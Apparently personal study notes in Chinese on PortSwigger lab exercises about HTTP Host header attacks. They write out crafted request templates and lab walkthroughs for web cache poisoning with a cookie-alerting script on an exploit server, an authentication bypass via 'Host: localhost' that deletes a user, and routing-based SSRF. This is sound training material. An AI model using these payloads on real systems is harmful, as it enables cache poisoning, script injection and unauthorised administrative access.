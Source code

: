 ```yaml
---
title: HTTP Host header attacks
description: HTTP Host header attacks
---
```


## 前言

光是看標題就覺得超吸引我！

## 攻擊手法

### Port

```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```

### Domain

```
GET /example HTTP/1.1
Host: notvulnerable-website.com
```

### Subdomain

```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```

### Double Host headers

```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```

### Absolute URL in HTTP Request Start Line

```
GET https://vulnerable-website.com/ HTTP/1.1
Host: bad-stuff-here
```

### Indent

```
GET /example HTTP/1.1
    Host: bad-stuff-here
Host: vulnerable-website.com
```

### X-Forwarded-Host, X-Host, X-Forwarded-Server, X-HTTP-Host-Override, Forwarded

```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here
```

補充，這在 [Web cache poisoning](./web-cache-poisoning.md) 的章節也有提到

## Lab: Web cache poisoning via ambiguous requests

| Dimension | Description                                                                                                            |
| --------- | ---------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/host-header/exploiting#web-cache-poisoning-via-the-host-header                    |
| Lab       | https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests |

先用 Burp Suite Repeater，觀察正常的 HTTP Request 跟 Response

Request

```
GET / HTTP/1.1
Host: 0a3600d3043f9f5f8071036c00c000d7.h1-web-security-academy.net
Cookie: session=CBkKLZ9HhcdYIHyStoQeEzZ0uXdNdFz4; _lab=46%7cMCwCFAavorc2RuuNk5TOoN4sBzoAPWOSAhQy6nke9VJs65Ko30mZecU7BWIvmBQGB7ZgklKnIGdWteyIGZrDrKJsBdgHZ2L6ztzw4oCs5bEaFGBGnuCnbFPPunxdwt%2fbaN%2bW4udri%2bmX7g6xstCi9wk6ZJKCB%2beLb6Zh78hWsYfchsPA%2fI8%3d
```

Response

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Connection: close
Content-Length: 10968
```

經過 [Web cache poisoning](./web-cache-poisoning.md) 的洗禮，現在知道 Request Headers 要帶 `Cookie`，Server 才不會回傳 `Set-Cookie`，導致 Response 無法被快取

嘗試加 [Port](#port)，`Host: 0a3600d3043f9f5f8071036c00c000d7.h1-web-security-academy.net:123`，看到

```html
<script
  type="text/javascript"
  src="//0a3600d3043f9f5f8071036c00c000d7.h1-web-security-academy.net:123/resources/js/tracking.js"
></script>
```

瀏覽器重整後．確實有 Cache Poisoning

先在 exploit-server 設定

```
/resources/js/tracking.js

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8

alert(document.cookie)
```

但可惜換成數字以外就會 500 Internal Server Error

```html
<h4>Internal Server Error</h4>
<p class="is-warning">No host found</p>
```

嘗試第二招 [Double Host headers](#double-host-headers)

```
Host: 0a3600d3043f9f5f8071036c00c000d7.h1-web-security-academy.net
Host: exploit-0a03006204969f11807e027801e6005b.exploit-server.net
```

成功解題～

## Exploiting classic server-side vulnerabilities

https://portswigger.net/web-security/host-header/exploiting#exploiting-classic-server-side-vulnerabilities

```
For example, you should try the usual SQL injection probing techniques via the Host header. If the value of the header is passed into a SQL statement, this could be exploitable.
```

有點不直觀的黑箱 SQLi 測試 Entry Point，正常都是搜尋功能的參數，但還是先記在心裡～

## Lab: Host header authentication bypass

| Dimension | Description                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/host-header/exploiting#accessing-restricted-functionality    |
| Lab       | https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass |

直接用 Burp Suite Repeater 嘗試

```
GET / HTTP/2
Host: localhost
```

看到

```html
<a href="/admin">Admin panel</a>
```

接著就

```
GET /admin HTTP/2
Host: localhost
```

然後

```
GET /admin/delete?username=carlos HTTP/2
Host: localhost
```

成功通關～

## Accessing internal websites with virtual host brute-forcing

https://portswigger.net/web-security/host-header/exploiting#accessing-internal-websites-with-virtual-host-brute-forcing

假設一台 Server 有 Host 一個 Public 網站 跟一個 Private 網站

```
www.example.com: 12.34.56.78
intranet.example.com: 10.0.0.132
```

如果攻擊者能夠知道 `intranet.example.com`，不管是透過

1. DNS Record
2. [Information disclosure](./information-disclosure.md)
3. subdomain brute-force

就能訪問 Server 內部的其他服務了，但這跟 [SSRF](./cross-site-requesy-forgery.md) 不一樣，SSRF 是 Client → Server → Other Server (outbound)

## Routing-based SSRF

https://portswigger.net/web-security/host-header/exploiting#routing-based-ssrf

假設有 Client `<=>` Reverse Proxy `<=>` Original Server 的架構

如果發送以下 HTTP Request 給 Reverse Proxy

```
GET / HTTP/1.1
Host: Other-Internal-Server
```

Reverse Proxy 真的把 HTTP Request 轉發到 Other-Internal-Server 的話，這樣就算是 Routing-based SSRF

## Lab: Routing-based SSRF

| Dimension | Description                                                                                    |
| --------- | ---------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/host-header/exploiting#routing-based-ssrf                 |
| Lab       | https://portswigger.net/web-security/host-header/exploiting/lab-host-header-routing-based-ssrf |

## 參考資料

- https://portswigger.net/web-security/host-header
